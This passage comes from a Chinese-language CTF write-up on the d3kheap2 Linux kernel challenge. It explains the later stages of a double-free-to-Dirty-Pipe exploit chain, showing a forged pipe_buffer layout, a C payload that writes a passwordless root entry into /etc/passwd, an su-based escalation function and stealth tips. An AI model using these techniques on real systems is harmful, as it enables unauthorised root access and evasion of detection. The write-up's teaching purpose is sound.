    用户空间->>网络子系统: 堆喷恶意pipe_buffer
    网络子系统->>内核内存: 分配sk_buff包含恶意数据

    用户空间->>管道子系统: 向目标管道写入数据
    管道子系统->>管道子系统: 检查CAN_MERGE标志
    管道子系统->>页面缓存: 直接写入文件页面
    页面缓存->>页面缓存: 修改文件内容
```

**恶意pipe_buffer构造**：

```
原始pipe_buffer (泄露的):
+-------+---------------------+---------------------+
| 字段  | 值                  | 说明                |
+-------+---------------------+---------------------+
| page  | 0xffff8880xxxxx000  | 文件页面指针        |
| offset| 0xXX                | 管道索引            |
| len   | 0xXX                | 数据长度            |
| ops   | page_cache_pipe_buf_ops| 页面缓存操作     |
| flags | 0x00                | 原始标志            |
| private| 0x00               | 私有数据            |
+-------+---------------------+---------------------+

恶意pipe_buffer (构造的):
+-------+---------------------+---------------------+
| 字段  | 值                  | 说明                |
+-------+---------------------+---------------------+
| page  | 0xffff8880xxxxx000  | 保持原始值          |
| offset| 0x00                | 重置为0             |
| len   | 0x00                | 重置为0             |
| ops   | anon_pipe_buf_ops   | 修改为匿名管道操作  |
| flags | 0x10                | 设置CAN_MERGE标志   |
| private| 0x00               | 保持为0             |
+-------+---------------------+---------------------+
```

**关键修改**：

1. **ops指针替换**：将`ops`指针从`page_cache_pipe_buf_ops`替换为`anon_pipe_buf_ops`。匿名管道操作允许对管道缓冲区进行写入，即使底层页面是文件页面。

2. **flags标志设置**：设置`PIPE_BUF_FLAG_CAN_MERGE`（0x10）标志。这个标志是关键，允许合并写入到管道缓冲区。

3. **offset和len重置**：将`offset`和`len`重置为0，确保从页面开始处写入。

**Dirty Pipe触发机制**：

当向修改后的管道写入时：

1. 内核检查`flags`字段，发现`PIPE_BUF_FLAG_CAN_MERGE`标志
2. 由于`ops`指向`anon_pipe_buf_ops`，使用匿名管道的写入逻辑
3. 写入操作直接修改`page`指针指向的文件页面缓存
4. 绕过正常的文件权限检查，实现文件修改

**写入数据内容**：

```c
char evil_data[] = "root::0:0:root:/root:/bin/sh\n";
```

这个条目修改`/etc/passwd`文件，创建一个无需密码的root用户。字段含义：

- `root`：用户名
- 空密码字段（`::`表示无密码）
- `0`：用户ID（root）
- `0`：组ID（root）
- `root`：描述
- `/root`：家目录
- `/bin/sh`：登录shell

### 5-9. 权限提升与清理

最后阶段尝试权限提升并清理分配的资源。这是利用链的收尾工作，确保系统稳定性和利用的隐蔽性。

**技术实现**：

```c
void escalate_privileges(void) {
    system("su -c 'cat /root/flag' && su");
}
```

**权限提升机制**：

修改后的`/etc/passwd`文件包含一个无密码的root用户。`system("su")`命令：

1. 启动su程序
2. su读取`/etc/passwd`，发现root用户无密码
3. 允许无密码切换到root用户
4. 启动具有root权限的shell

**资源清理策略**：

虽然代码中没有显式的资源清理，但进程退出时系统会自动清理：

1. 文件描述符自动关闭
2. 消息队列在进程退出后可能保留，但不再被访问
3. 套接字和管道在进程退出时关闭
4. 内核内存由内存管理系统回收

**系统稳定性考虑**：

1. **最小化修改**：只修改一行`/etc/passwd`，最小化对系统的影响
2. **可恢复性**：修改可以很容易地恢复，减少系统损坏风险
3. **错误处理**：关键操作都有错误检查，避免未定义行为

**隐蔽性增强**：

1. **正常行为模拟**：权限提升通过正常的su命令，符合常规系统管理行为
2. **日志最小化**：利用过程尽量减少内核日志输出
3. **资源快速释放**：及时释放不再需要的资源，减少可检测性

### 5-10. 技术总结

d3kheap2进阶利用代码展示了现代内核漏洞利用的多个高级技术，通过八个阶段的系统性操作实现了从环境建立到权限提升的完整技术链。第一阶段建立稳定的执行环境，通过扩展文件描述符限制和CPU核心绑定为后续复杂操作提供基础；第二阶段协调多个子系统创建通信通道，包括240个管道对、4096个消息队列和64个套接字对，为精细堆控制建立基础设施；第三阶段触发跨缓存双重释放，通过精确的堆喷、释放和重新分配操作创建类型混淆条件；第四阶段检测内存污染，通过扫描消息队列发现异常状态，确认双重释放的成功触发；第五阶段将内存污染转换为可控的Use-After-Free原语，通过分步骤的内存操作优化布局；第六阶段定位被污染的管道缓冲区，从重叠结构中提取内核地址信息，绕过KASLR保护；第七阶段触发Dirty Pipe漏洞，通过修改管道缓冲区的ops指针和flags标志实现文件页面缓存的直接写入；最后阶段尝试权限提升，通过修改后的系统文件获取root权限。整个利用过程在严格的内核安全机制约束下，展现了多子系统协调、跨缓存利用、精细堆控制、实时信息泄露和文件操作劫持等多种高级技术的系统集成，构建了从单一Double Free漏洞到完整权限提升的复杂技术链。相比基础版本，这个进阶版本在可靠性、成功率和隐蔽性方面都有显著改进，体现了现代内核漏洞利用工程的技术深度和精确性。

### 5-11. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/CrossCacheDoubleFree2
- https://github.com/BinRacer/pwn4kernel/tree/master/src/CrossCacheDoubleFree3
- https://arttnba3.cn/2025/06/04/CTF-0X0A_D3CTF2025_D3KHEAP2_D3KSHRM
